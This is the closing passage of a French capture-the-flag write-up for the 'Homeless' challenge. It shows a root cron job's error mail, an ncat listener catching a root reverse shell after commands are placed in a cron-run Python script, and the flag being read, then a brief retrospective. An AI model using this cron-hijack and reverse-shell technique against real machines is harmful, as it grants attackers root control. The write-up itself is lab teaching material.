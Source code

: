 ```plain
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1envNh-0008TY-Rr@creatigon.localhost>
Date: Mon, 19 Feb 2018 19:02:01 -0500
Status: O
X-UID: 2116

./homeless.py: 1: ./homeless.py: import: not found
./homeless.py: 2: ./homeless.py: Syntax error: word unexpected (expecting ")")
```

Désormais on peut placer les commandes que l'on souhaite dans le script Python et obtenir notre reverse shell root :  

```plain
$ ncat -l -p 9999 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.2.3.
Ncat: Connection from 192.168.2.3:35872.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
flag.txt
cat flag.txt
Well done!.

Woo! woo! woo. You Got it!..
Really Appreciate to solve my challenge....

This is my first time challenge..
I hope next time will be more better than this one!...

Thanks
Min Ko Ko
hi@creatigong.com

http://www.creatigon.com
http://www.mmsecurity.net
https://www.facebook.com/l33twebhacker
```

Bilan
-----

Le challenge alternait des étapes simples (brute-force) avec de véritables casses-têtes. Pas forcément très réaliste (peu de chances de tomber sur un formulaire limité aux fichiers de 8 octets et moins) mais ça a permis de redécouvrir des fonctionnalités oubliées de PHP. Enfin c'est toujours un plaisir de partager des idées sur un CTF avec quelqu'un d'autre :)

*Published February 23 2018 at 18:08*
